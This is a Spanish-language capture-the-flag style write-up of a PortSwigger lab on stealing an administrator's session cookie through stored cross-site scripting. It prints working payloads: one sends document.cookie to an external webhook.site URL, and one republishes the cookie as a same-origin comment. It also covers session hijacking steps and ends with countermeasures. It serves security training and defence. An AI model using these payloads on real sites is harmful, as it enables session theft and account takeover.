


# Writeup: Exploiting cross-site scripting to steal cookies (PortSwigger)

- **Lab**: Exploiting cross-site scripting to steal cookies
- **URL**: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies
- **Categoría**: XSS / Stored / Exploitation phase / Session hijacking
- **Dificultad**: Practitioner

---

## 1. Objetivo

El lab cambia de fase: ya no se trata de **encontrar** XSS sorteando filtros (los labs de la serie "contexts" hacían eso), sino de **explotar** una XSS ya existente y trivial. La vulnerabilidad está dada: el campo `comment` del formulario de comentarios del blog acepta HTML/JS sin filtrar y los renderiza tal cual cuando se carga el post. El objetivo es:

1. Inyectar un `<script>` en un comentario.
2. Esperar a que un bot simulado (que viene logueado como `administrator`) cargue el thread.
3. Robar su cookie de sesión.
4. Inyectarla en mi navegador.
5. Acceder a `/my-account` como administrator → lab marcado como **Solved**.

La solución oficial usa Burp Collaborator (Burp Suite Pro). Sin Pro, hay que descubrir un camino alternativo, que es donde este writeup se vuelve interesante.

---

## 2. El primer plan que NO funcionó: webhook.site

Mi instinto inicial fue sustituir Burp Collaborator por `webhook.site`, un servicio gratuito que asigna una URL única y registra todos los requests entrantes en tiempo real. La mecánica debería ser idéntica: el script malicioso hace `fetch()` al endpoint público con la cookie en el body.

### Payload inicial

```html
<script>
fetch('https://webhook.site/<UUID>', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
});
</script>
```

### Lo que pasó

- El script se publicó en el comentario, intacto en el DOM.
- Cuando yo (atacante) visitaba el post, mi propio request llegaba a webhook.site sin problemas.
- Cuando el bot simulado pasaba (5s, 30s, 5min...), **nunca llegaba un request del bot**.

Después de varios reintentos con payloads alternativos (`new Image().src=...`), reinicios del lab, y verificación del DOM (`<script>` quedaba intacto), la conclusión: el script SÍ ejecuta en el navegador del bot, pero su request nunca sale a internet.

### Por qué falló: el firewall del lab

PortSwigger Web Security Academy aplica un **firewall egress** dentro del entorno del lab. El navegador headless del bot puede ejecutar JS, pero las salidas a dominios externos arbitrarios (webhook.site, interactsh, requestbin, beeceptor, ngrok) **se descartan antes de salir** del entorno académico. Solo se permite tráfico a:

- `*.oastify.com` y `*.burpcollaborator.net` (Burp Collaborator, requiere Pro).
- El "exploit server" gratuito que algunos labs proveen explícitamente.
- Endpoints internos del propio lab (same-origin).

Esta restricción es anti-abuso (PortSwigger no quiere que sus labs sirvan como vehículo para exfiltrar datos a terceros), y no aparece documentada en la página del lab. La descubrí en un thread del foro oficial y un par de writeups de comunidad. Sin saberlo, gasté ~30 minutos pensando que el bot estaba caído.

**Lección dura aprendida**: webhook.site / interactsh / requestbin son sustitutos válidos de Burp Collaborator en bug bounty real (donde no hay firewall del target controlando las salidas), pero NO dentro del entorno académico de PortSwigger. Para labs OOB sin Burp Pro hay que buscar un canal same-origin.

---

## 3. La alternativa: auto-exfiltración same-origin

Si el firewall bloquea salidas externas, la única ruta es **mantener el tráfico dentro del propio dominio del lab**. La idea: el script malicioso, ejecutándose en el navegador del bot, **publica un comentario nuevo con la cookie del bot como cuerpo del comentario**. El comentario queda almacenado en el blog del lab. Yo (atacante) navego al post después y leo la cookie en texto plano en la lista de comentarios.

Diagrama:

```
[Atacante]                  [Lab server]                     [Bot]
   |                             |                             |
   | POST /post/comment          |                             |
   | (con <script> malicioso)    |                             |
   |---------------------------->|                             |
   |                             |  almacena comentario        |
   |                             |                             |
   |                             |  bot autónomo visita post   |
   |                             |<----------------------------|
   |                             |                             |
   |                             |  responde HTML del post     |
   |                             |  (incluye nuestro <script>) |
   |                             |---------------------------->|
   |                             |                             | navegador del bot
   |                             |                             | ejecuta nuestro JS
   |                             |                             |
   |                             |  POST /post/comment         |
   |                             |  body: cookie del bot       |
   |                             |<----------------------------|
   |                             |  (same-origin, sin firewall)|
   |                             |  almacena comentario        |
   |                             |                             |
   | GET /post?postId=N          |                             |
   |---------------------------->|                             |
   | recibe HTML con el comment  |                             |
   | "session=AbCdEf123..."      |                             |
```

Cero tráfico saliente. Todo dentro del dominio del lab. El firewall no interviene.

---

## 4. El segundo bug: timing del DOM

El primer intento del payload same-origin falló con un error inesperado:

```
Uncaught TypeError: Cannot read properties of null (reading 'value')
    at post?postId=1:91:65
```

Línea ofensora:

```javascript
body: 'csrf=' + document.querySelector('input[name=csrf]').value + ...
```

`querySelector` devolvía `null`, así que acceder a `.value` lanzaba el TypeError. Pero el `<input name="csrf">` SÍ existía en la página (lo confirmé enviando un comentario manual y mirando el request en DevTools → Network → Payload).

### Por qué pasaba

El navegador parsea HTML **secuencialmente**. La estructura de la página de un post es aproximadamente:

```html
<article>
  <h1>Post title</h1>
  <p>Post body...</p>
</article>

<section class="comments">
  <section class="comment">
    <p><script>...payload...</script></p>   <!-- aquí ejecuta -->
  </section>
</section>

<form>
  <input name="csrf" value="..."> <!-- aquí, DESPUÉS -->
  <input name="postId" value="1">
  <input name="comment">
  ...
</form>
```

Cuando el parser HTML llega al `<script>` dentro del comentario, lo ejecuta **inmediatamente**. En ese momento la sección de abajo (el form) **todavía no está en el DOM**. `querySelector` busca un elemento que aún no existe, devuelve null.

El submit manual funcionaba porque al hacer submit ya el DOM estaba completo.

### Fix: diferir hasta `DOMContentLoaded`

El evento `DOMContentLoaded` dispara cuando el HTML entero ha sido parseado (pero antes de que terminen de cargar imágenes, CSS, etc.). En ese momento todos los elementos del documento existen.

```javascript
addEventListener('DOMContentLoaded', () => {
    // aquí el form ya está en el DOM
});
```

---

## 5. Payload final

```html
<script>
addEventListener('DOMContentLoaded',()=>{
    fetch('/post/comment',{
        method:'POST',
        headers:{'Content-Type':'application/x-www-form-urlencoded'},
        body:'csrf='+document.getElementsByName('csrf')[0].value
            +'&postId='+new URLSearchParams(location.search).get('postId')
            +'&name=stolen&email=a@a.com&website=http://a.com'
            +'&comment='+encodeURIComponent(document.cookie)
    });
});
</script>
```

Qué hace, paso a paso:

1. **`addEventListener('DOMContentLoaded', ...)`**: registra el handler para cuando el DOM termine de parsearse. Asegura que el form ya existe.
2. **`document.getElementsByName('csrf')[0].value`**: lee el token CSRF del input oculto del form. Necesario porque el endpoint `/post/comment` rechaza requests sin él.
3. **`new URLSearchParams(location.search).get('postId')`**: extrae el `postId` de la URL actual (`?postId=1`). El comentario auto-exfiltrado se publica en el mismo post donde está el bot.
4. **`encodeURIComponent(document.cookie)`**: el cuerpo del nuevo comentario es la cookie del bot, URL-encoded para que sobreviva el form-encoding.
5. **`fetch('/post/comment', ...)`**: POST same-origin. El navegador adjunta automáticamente la cookie de sesión del bot, así que el server lo procesa como un comentario legítimo del bot.

---

## 6. Resolución

1. Pegué el payload en un comentario nuevo del primer post (`postId=1`).
2. Esperé ~30 segundos.
3. Refresqué el post.
4. Apareció un comentario nuevo de "stolen" con texto: `session=AbCdEfGh1234...` (la cookie de `administrator`).
5. F12 → Application → Cookies → reemplacé el valor de mi cookie `session` por el de administrator.
6. Recargué `/my-account` → "Your username is: administrator". Lab marcado como **Solved**.



---

## 7. Resumen de la cadena



Tres ideas para llevarse:

1. **El entorno académico no es el mundo real.** Las técnicas de bug bounty (webhook.site para OOB) no transfieren 1-a-1 al lab de PortSwigger por el firewall. Para labs OOB sin Burp Pro, el patrón es buscar un canal same-origin: comentarios, posts, perfil, cualquier endpoint del propio dominio que persista datos visibles al atacante.
2. **`<script>` inline ejecuta cuando el parser lo encuentra, no cuando el DOM termina.** Si el payload depende de elementos que están más abajo en el HTML, hay que diferir con `DOMContentLoaded`, `setTimeout(..., 0)`, o `window.onload` (que espera incluso a recursos externos). Olvidarlo lleva a errores `Cannot read properties of null` que parecen bugs de selector pero son bugs de timing.
3. **El bot del lab es real y autónomo, pero invisible.** Cuando un payload "no funciona" es tentador echarle la culpa al bot. Antes de eso hay que confirmar que el script pasa la pre-ejecución (en tu propio visit), que el endpoint responde como esperas (en tu submit manual), y descartar firewall/CORS/CSP.

---

## 8. Contramedidas

Defensas en orden de robustez:

1. **Sanitizar HTML en el campo de comentario**. Lista blanca de tags permitidos (`<b>`, `<i>`, `<a href>`) usando un sanitizador conocido como DOMPurify. Nunca renderizar HTML cliente sin pasar por sanitizer.
2. **`HttpOnly` flag en la cookie de sesión**. Si el lab tuviera `Set-Cookie: session=...; HttpOnly`, `document.cookie` no la devolvería y este ataque sería imposible directamente (el atacante necesitaría otro vector como CSRF o XHR autenticada en su lugar). En este lab la cookie NO es HttpOnly, lo cual hace el robo trivial.
3. **`SameSite=Strict` en la cookie**. No defiende contra XSS same-origin, pero limita el impacto en cadenas combinadas (XSS + CSRF cross-site).
4. **Content Security Policy** que prohíba `script-src 'unsafe-inline'`. Bloquearía `<script>...</script>` en el comentario. Requiere refactor del JS legítimo del sitio para usar nonces/hashes en lugar de inline.
5. **Detección server-side del patrón de auto-exfiltración**: si un mismo `postId` recibe en pocos segundos un comentario nuevo desde una sesión que NO acaba de submitear el form (no hay GET previo del post desde esa misma sesión), levantar alerta.

### Anti-patrón frecuente

Confiar en el escape HTML básico (`&lt;`, `&gt;`) que aplican algunos frameworks por defecto. En este lab el comentario claramente NO pasa por escape (el `<script>` queda intacto), seguramente porque el dev quiso permitir formato (negritas, links) y eligió "renderizar el HTML literal" en lugar de configurar un sanitizer adecuado. Permitir `<b>` y `<a>` requiere un parser, no un toggle.

---

## 9. Lección general: el lab firewall y el patrón same-origin

Cada lab tiene un modelo de amenazas y un modelo de entorno. PortSwigger:

- **Modelo de amenazas**: enseña vulnerabilidades reales, payloads reales.
- **Modelo de entorno**: aísla los labs en un firewall que limita egress.

La consecuencia: técnicas de la fase de **descubrimiento** (encontrar XSS, SQLi) son idénticas a producción. Técnicas de la fase de **exfiltración** (cookie stealing, OOB SQLi, blind XSS) están restringidas porque el firewall bloquea los canales típicos.

Para esta segunda categoría, el patrón resoluble sin Burp Pro es:

| Tipo de exfil | Canal típico real | Canal alternativo en PortSwigger sin Pro |
|---|---|---|
| Cookie stealing | webhook.site / Collaborator | Comentario en el blog mismo |
| Password capturing | webhook.site / Collaborator | Form override que postea a otro endpoint del lab |
| Blind XSS / token leak | Collaborator | Same-origin POST a feedback / contact / chat / cualquier endpoint que persista contenido visible |
| Blind SQLi OOB | Burp Collaborator (DNS, HTTP) | No hay alternativa same-origin viable; este sí requiere Pro |

Generalizando: cuando el lab tiene un endpoint que **persiste contenido controlable y luego es legible por el atacante**, ese endpoint puede sustituir al Collaborator. Cuando no (típico en labs de SQLi OOB ciega que no incluyen un endpoint de feedback público), Pro es realmente la única ruta.

---

## 10. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Exploiting cross-site scripting to steal cookies*. https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies
- PortSwigger Web Security Academy. (s.f.). *Exploiting cross-site scripting vulnerabilities*. https://portswigger.net/web-security/cross-site-scripting/exploiting
- PortSwigger Support Forum. (s.f.). *Lab: Exploiting cross-site scripting to steal cookies — the user simulation doesn't work*. https://forum.portswigger.net/thread/lab-exploiting-cross-site-scripting-to-steal-cookies-the-user-simulation-doesn-t-work-c7072f64
- WHATWG. (s.f.). *HTML Living Standard, Parsing HTML — execute a script block*. https://html.spec.whatwg.org/multipage/scripting.html#execute-the-script-element
- MDN Web Docs. (s.f.). *DOMContentLoaded event*. https://developer.mozilla.org/en-US/docs/Web/API/Document/DOMContentLoaded_event
- OWASP Foundation. (s.f.). *Session Hijacking Attack*. https://owasp.org/www-community/attacks/Session_hijacking_attack
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-xss.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-xss.md)
- Memoria del proyecto: [`memory/project_portswigger_firewall.md`](../../../../.claude/projects/-home-sebastian-Documentos-inventario-tecnicas-ciberseguridad/memory/project_portswigger_firewall.md) — anotación persistente para no repetir el error de recomendar webhook.site en futuras sesiones.
